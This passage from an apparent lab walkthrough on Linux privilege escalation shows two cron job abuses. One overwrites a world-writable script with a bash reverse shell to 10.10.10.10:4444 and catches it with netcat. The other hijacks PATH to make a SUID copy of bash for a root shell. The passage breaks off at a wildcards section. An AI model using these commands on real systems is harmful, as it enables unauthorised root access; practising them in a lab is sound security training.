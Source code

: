 ```
* View the contents of the system-wide crontab:

```cat /etc/crontab ```

There should be two cron jobs scheduled to run every minute. One runs overwrite.sh, the other runs /usr/local/bin/compress.sh.

* Locate the full path of the overwrite.sh file:

```locate overwrite.sh ```

* Note that the file is world-writable:

```ls -l /usr/local/bin/overwrite.sh ```

* Replace the contents of the overwrite.sh file with the following after changing the IP address to that of your Kali box.

```
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

* Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener.

```nc -nvlp 4444 ```


## 8. Cron Jobs - PATH Environment Variable 

* View the contents of the system-wide crontab:
 
```cat /etc/crontab ```

* Note that the PATH variable starts with /home/user which is our user's home directory.

* Create a file called overwrite.sh in your home directory with the following contents:

```
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

* Make sure that the file is executable:

```chmod +x /home/user/overwrite.sh ```

* Wait for the cron job to run (should not take longer than a minute). Run the /tmp/rootbash command with -p to gain a shell running with root privileges:

```/tmp/rootbash -p ```

* Remember to remove the modified code, remove the /tmp/rootbash executable and exit out of the elevated shell before continuing as you will create this file again later in the room!

```
rm /tmp/rootbash
exit
```

## 9. Cron Jobs - Wildcards 

* View the contents of the other cron job script:
```